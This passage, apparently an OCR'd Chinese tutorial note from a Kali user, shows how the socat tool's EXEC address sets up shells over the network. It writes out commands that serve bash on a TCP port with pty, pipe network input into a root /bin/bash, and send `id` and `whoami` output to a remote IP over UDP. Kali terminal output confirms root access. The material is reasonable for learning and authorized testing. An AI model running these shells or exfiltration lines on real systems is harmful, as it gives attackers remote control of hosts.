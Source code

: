 **地址除了 **`TCP` 和 `TCP-LISTEN` 外，另外一个重要的地址类型就是 `EXEC` 可以执行程序并且把输入输出和另外一个地址串起来，建立反弹shell

```
socat TCP-LISTEN:8080,fork,reuseaddr  EXEC:/usr/bin/bash    # 服务端提供 shell
socat - TCP:192.168.110.129:8080                        # 客户端登录
```

**完善一点可以加些参数：**

```
socat TCP-LISTEN:8080,fork,reuseaddr  EXEC:/usr/bin/bash,pty,stderr   # 服务端
socat file:`tty`,raw,echo=0 TCP:localhost:8080                        # 客户端
```

**这样可以把 bash 的标准错误重定向给标准输出，并且用终端模式运行。客户端可以像刚才那样登录，但是还可以更高级点，用 tty 的方式访问，这样基本就得到了一个全功能的交互式终端了，可以在里面运行 vim, emacs 之类的程序。**

**更高级一点，使用 root 运行：**

**远程命令执行：**

`sudo socat TCP4-LISTEN:4433 STDOUT  |/bin/bash`

**当对方用nc 或socat 连接4433端口时输入的命令会被传入bash中执行**

*将执行的命令结果进行传输*

**	**服务器：socat - udp -l:2001

**	**客户端： echo "`**id**`**" |socat - udp4-datagram:1.1.1.1:2001**

**datagram 说明发送的是一个数据段**

```
┌──(root㉿kali)-[~]
└─# echo '1123qweqweqweqweqew'| socat - udp-datagram:192.168.110.129:2000
                                                                           
┌──(root💀kali)-[~]
└─# socat - udp-l:2000      
1123qweqweqweqweqew
```

```
┌──(root㉿kali)-[~]
└─# echo `id`| socat - udp-datagram:192.168.110.129:2000

┌──(root💀kali)-[~]
└─# socat - udp-l:2000                                             
uid=0(root) gid=0(root) 组=0(root)

┌──(root㉿kali)-[~]
└─# echo `whoami`|socat - udp-datagram:192.168.110.129:2000 

┌──(root💀kali)-[~]
└─# socat - udp-l:2000                                             
root

```
